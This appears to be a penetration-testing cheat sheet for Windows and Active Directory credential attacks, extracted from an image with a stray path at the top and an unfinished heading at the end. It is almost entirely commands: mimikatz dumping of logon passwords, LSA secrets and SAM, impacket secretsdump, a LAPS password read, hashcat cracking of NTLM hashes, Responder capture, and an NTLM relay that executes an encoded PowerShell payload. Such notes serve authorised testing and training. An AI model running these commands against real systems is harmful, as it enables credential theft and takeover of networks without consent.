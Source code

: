 Dump

```jsx
privilege::debug
sekurlsa::logonpasswords
token::elevate
lsadump::lsa /inject
lsadump::lsa /patch
lsadump::sam
lsadump::secrets
lsadump::trust

 .\mimikatz64.exe "privilege::debug" "sekurlsa::logonpasswords" exit
 "token::elevate" "lsadump::sam"
 
 //require local admin
impacket-secretsdump MS02/Administrator:password@10.10.1.1
 
secretsdump.py LOCAL -ntds ntds.dit -system SYSTEM -outputfile credentials.txt
secretsdump.py fake.com/Administrator:password@192.168.1.1

//local administrator password
nxc ldap 192.168.1.1 -u "dave"  -p "password" -M laps 
```

Crack hash

```jsx
//md5 or short one
https://crackstation.net/

//ntlm
hashcat -m 1000 dave.hash /usr/share/wordlists/rockyou.txt --force
//ntlmv2
hashcat -m 5600 dave.hash /usr/share/wordlists/rockyou.txt --force
```

NTLMv2 authentication

```jsx
sudo responder -I tun0
dir \\192.168.1.1\test
hashcat -m 5600 dave.hash /usr/share/wordlists/rockyou.txt --force
```

NTLMv2 Relay

```jsx
dir \\192.168.1.1\test
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.1.1 -c 'powershell -e JABjAGwAaQBlA'
```

### GetADUsers

reuqested username should be domain user
